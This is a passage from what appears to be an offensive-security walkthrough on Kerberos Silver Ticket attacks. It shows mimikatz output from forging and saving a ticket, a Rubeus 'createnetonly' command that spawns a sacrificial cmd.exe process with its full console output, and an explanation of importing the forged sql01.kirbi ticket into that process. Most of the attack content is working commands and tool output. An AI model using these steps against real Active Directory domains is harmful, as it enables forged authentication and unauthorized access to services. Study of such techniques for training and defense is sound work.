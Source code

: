 	 * PAC generated
	 * PAC signed
	 * EncTicketPart generated
	 * EncTicketPart encrypted
	 * KrbCred generated

	Final Ticket Saved to file !

	mimikatz(commandline) # exit
	Bye!
	


![Mimikatz Silver](/Silver-Tickets/images/Mimikatz-Silver.png) 



## Create a Sacrificial Process


	PS C:\Tools> .\Rubeus.exe createnetonly /program:cmd.exe /show

	   ______        _
	  (_____ \      | |
	   _____) )_   _| |__  _____ _   _  ___
	  |  __  /| | | |  _ \| ___ | | | |/___)
	  | |  \ \| |_| | |_) ) ____| |_| |___ |
	  |_|   |_|____/|____/|_____)____/(___/

	  v2.2.2


	[*] Action: Create Process (/netonly)


	[*] Using random username and password.

	[*] Showing process : True
	[*] Username        : DSX7M0UK
	[*] Domain          : I0RSB6CS
	[*] Password        : B0ZIUHGY
	[+] Process         : 'cmd.exe' successfully created with LOGON_TYPE = 9
	[+] ProcessID       : 5952
	[+] LUID            : 0x19983f


![Create Process Rubues](/Silver-Tickets/images/create-process-rubeus.png) 




This Rubeus action [createnetonly](https://github.com/GhostPack/Rubeus#createnetonly) and the flag **/show**, will open the program we specify for **/program:**, in this case, **cmd.exe**. That new window is our **sacrificial process**, as it doesn't have the creds of our current user. We will import the **sql01.kirbi ticket** we forged with mimikatz using this window as follows:


